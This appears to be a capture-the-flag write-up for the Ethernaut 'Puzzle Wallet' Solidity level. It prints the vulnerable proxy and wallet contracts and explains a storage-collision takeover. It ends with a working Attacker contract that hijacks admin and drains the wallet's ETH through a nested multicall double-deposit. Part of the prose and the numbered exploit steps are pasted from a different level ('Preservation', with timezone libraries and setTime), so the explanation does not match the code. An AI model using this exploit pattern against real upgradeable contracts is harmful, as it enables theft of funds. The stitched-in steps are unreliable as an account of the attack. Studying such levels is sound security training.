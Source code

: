 # Puzzle Wallet

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## Goal

The goal of this ctf is to hijack the ```PuzzleWallet``` by becoming admin of the ```PuzzleProxy```.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

```PuzzleWallet``` is an upgradeable contract which is following the Proxy Upgrade Pattern pattern and can be upgraded by calling the ```upgradeTo``` function from ```PuzzleProxy```.

When dealing with upgradeable proxies one must be aware that the storage layout of the proxy contract and the implementation (logic) contract must be the same, and this is where we can start looking for possible exploits.

If we compare the storage variables in ```PuzzleProxy``` (proxy contract) and ```PuzzleWallet``` (implementation contract) we can notice that ```pendingAdmin``` variable inside ```PuzzleProxy``` corresponds to ```owner``` inside ```PuzzleWallet``` and ```admin``` variable corresponds to ```maxBalance```. This means if we can find a way to update ```maxBalance``` variable we can update the admin of ```PuzzleProxy```.

After digging into the ```PuzzleWallet``` contract we can notice that the only way to update ```maxBalance``` is through the ```setMaxBalance``` function, however there are two requirements that we need to satisfy, first one is we need to be whitelisted, second one is the balance of ether in the ```PuzzleWalet``` should be equal to 0.

Let's start with passing the first one. In order to get whitelisted we need to call ```addToWhitelist``` function inside ```PuzzleWallet```, but there is additional requirement here, the caller of ```addToWhitelist``` must be the ```owner```. Remember when we said that ```owner``` state variable corresponds to ```pendingAdmin``` variable, this means if we find a way to update the ```pendingAdmin``` variable, beacause of the nature of Proxy Upgrade Pattern and ```delegatecall```, ```owner``` variable will also get updated and we can set the ```Attacker``` contract as the ```owner```. To update ```pendingAdmin```, we will call ```proposeNewAdmin``` function inside ```PuzzleProxy```, this will update ```owner``` inside ```PuzzleWallet```, and therefore we can call ```addToWhitelist``` and add the ```Attacker``` contract address in the ```whitelisted``` mapping.

It means we are now whitelisted and our next task is to find a way how to drain the ETH balance from ```PuzzleWallet```.

The only function that is sending ETH away from ```PuzleWallet``` is ```execute```, but in order to call this function successfully we must have first deposited ETH in ```PuzzleWallet```, the contract is tracking this using the ```balances``` mapping. Given that this contract already has a balance of 0.001 ETH locked in it (we can check this by loading the ```PuzzleWallet``` contract at address inside Remix, we can find this address in the Ethernaut console), we must fund a way to depoist 0.001 ETH but update the ```balances``` mapping to show as if we have deposited 0.002 (after depositing 0.001 ETH, ```PuzzleWallet``` contract balance will become 0.002 ETH, and we must take all of this ETH from the contract).

In order to do so, we will make use of the ```deposit``` & ```multicall``` functions.

To exploit the contract we need to:

1. create Attacker contract
2. create attack(Preservation preservation) external function inside the Attacker contract, passing in the Preservation contract as function argument, and inside this function we will:
  <ul>
  <li>call setFristTime function from the Preservation contract and pass the uint256 value representation of the Attacker contract address as argument, this will update timeZone1Library variable inside Preservation contract to the value of the Attacker contract address</li>
  <li>call setFristTime again, this will call cause the Preservation contract to delegatecall to the Attacker contract by calling setTime inside the Attacker contract</li>
  <li>check if the owner variable inside Preservation is the same as msg.sender, otherwise revert</li>
  </ul>
3. add setTime function, inside this function we will update the owner of the Preservation contract by assigning a value to the owner state variable of the Attacker contract

One question that bugs me is, why this solution won't work if we omit the require statement inside the ```attack``` function!?

## Attacker contract code

```
interface IPuzzleWallet {
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
    function admin() external view returns (address);
}

contract Attacker {
    constructor(IPuzzleWallet puzzleWallet) payable {
        puzzleWallet.proposeNewAdmin(address(this));
        puzzleWallet.addToWhitelist(address(this));

        bytes[] memory depositData = new bytes[](1);
        depositData[0] = abi.encodeWithSelector(puzzleWallet.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = depositData[0];
        data[1] = abi.encodeWithSelector(puzzleWallet.multicall.selector, depositData);

        puzzleWallet.multicall{value: 0.001 ether}(data);
        puzzleWallet.execute(address(this), 0.002 ether, "");
        puzzleWallet.setMaxBalance(uint256(uint160(msg.sender)));

        require(puzzleWallet.admin() == msg.sender, "attack failed");
    }
}
```

